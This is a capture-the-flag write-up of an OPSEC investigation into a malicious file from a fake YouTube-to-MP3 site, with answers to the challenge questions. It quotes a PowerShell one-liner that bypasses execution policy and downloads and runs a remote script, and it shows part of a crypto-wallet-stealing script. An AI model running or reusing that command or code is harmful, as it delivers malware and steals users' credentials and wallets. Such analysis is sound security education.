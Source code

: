 # Day 1: OPSEC

## Learning Objectives
- Investigate malicious link files.
- Understand OPSEC principles and common mistakes.
- Learn how to track digital identities in cyber investigations.

---

## Introduction
Operational Security (OPSEC) refers to tactics used to protect sensitive information from adversaries. In this challenge, we investigate a suspicious YouTube-to-MP3 converter website shared among SOC-mas organizers after reports of malicious behavior.

---

## Investigating the Website

### Risks of YouTube-to-MP3 Converters
These websites often pose significant risks, such as:
- **Malvertising:** Exploiting vulnerabilities via malicious ads.
- **Phishing Scams:** Tricking users into revealing sensitive information.
- **Bundled Malware:** Distributing malware disguised as legitimate files.

---

## File Analysis

### Extracted Files
After downloading from the website, two files were extracted: `song.mp3` and `somg.mp3`. The unusual filename `somg.mp3` raised suspicion.

#### Analyzing `song.mp3`
```bash
file song.mp3
```
Output:
```
Audio file with ID3 version 2.3.0...
```
This file appears to be a legitimate MP3 audio file.

#### Analyzing `somg.mp3`
```bash
file somg.mp3
```
Output shows suspicious metadata indicating a PowerShell command embedded within the file.

---

## Metadata Analysis with Exiftool
Using `exiftool`, we uncover additional details about `somg.mp3`:

```bash
exiftool somg.mp3
```

Key findings include:

- **Relative Path:** `..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
  - *Why it’s suspicious:* The relative path points to the PowerShell executable, which is often used by attackers to execute malicious scripts or commands on a victim's system. This suggests that the file is designed to invoke PowerShell as part of its payload.

- **Command Line Arguments:**
  ```plaintext
  -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
  ```
  - *Why it’s suspicious:* 
    - **`-ep Bypass`**: Disables PowerShell's execution policy, allowing potentially unsafe scripts to run.
    - **`-nop`**: Suppresses warnings, making detection harder.
    - **`(New-Object Net.WebClient).DownloadFile(...)`**: Downloads a malicious script (`IS.ps1`) from a remote server.
    - **`iex (Get-Content ...)`**: Executes the downloaded script in memory without saving it to disk, which is a common evasion technique used by attackers.
    
    This behavior indicates a Command-and-Control (C2) operation where stolen data could be exfiltrated or additional payloads executed remotely.

- **Machine ID:** `win-base-2019`
  - *Why it’s relevant:* This metadata reveals the operating system environment in which the malicious file was created or tested. It provides insight into the attacker's setup and can be used for attribution.

These metadata fields collectively indicate that `somg.mp3` is not a legitimate file but instead a malicious payload designed to execute a PowerShell script, potentially compromising the victim's system.

---

## Malicious PowerShell Script
The script attempts to steal sensitive information such as cryptocurrency wallets and browser credentials. Below is a snippet of the malicious script:

```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}
```

The script is designed to:
1. Print ASCII art for attribution.
2. Search for cryptocurrency wallet files and browser credentials.
3. Send stolen data to a Command-and-Control (C2) server.

---

## OPSEC Mistakes
This case highlights several common OPSEC failures by attackers:

1. **Reusing Identifiable Metadata**:
   - Metadata in `somg.mp3` revealed critical details such as machine ID (`win-base-2019`) and working directory (`C:\Windows\System32\WindowsPowerShell\v1.0`). These details could be used for attribution or tracking back to the attacker’s environment.

2. **Posting Sensitive Details Publicly**:
   - The attacker left traces on GitHub, exposing their identity ("M.M.") and intentions. For example, their GitHub repository hosted the malicious script (`IS.ps1`) used in this attack.

3. **Failing to Use Anonymization Tools**:
   - Lack of proper anonymization, such as VPNs or proxies, allowed investigators to trace their activities more easily.

---

## Questions & Answers

1. **Who is the author of `song.mp3`?**
   - Tyler Ramsbey

2. **What is the URL of the C2 server?**
   - http://papash3ll.thm/data  
     ![C2 Server URL](images/C2-Server-URL.png)  
     *Figure 1: Output showing the C2 server URL from metadata analysis.*

3. **Who is M.M.?**
   - Mayor Malware

4. **What is the number of commits on the GitHub repo where the issue was raised?**
   - 1  
     ![GitHub Profile Screenshot](images/github-commits.png)  
     *Figure 2: Output shows the number of commits (+1).*

---

## Conclusion
This challenge demonstrates how poor OPSEC practices can expose attackers' identities and operations. By analyzing suspicious files and investigating metadata, cybersecurity professionals can uncover critical evidence in cyber investigations.

<<<<<<< HEAD
---
=======
---
>>>>>>> fdcc249714b1fae34ce86394f32307238bdcb5ab
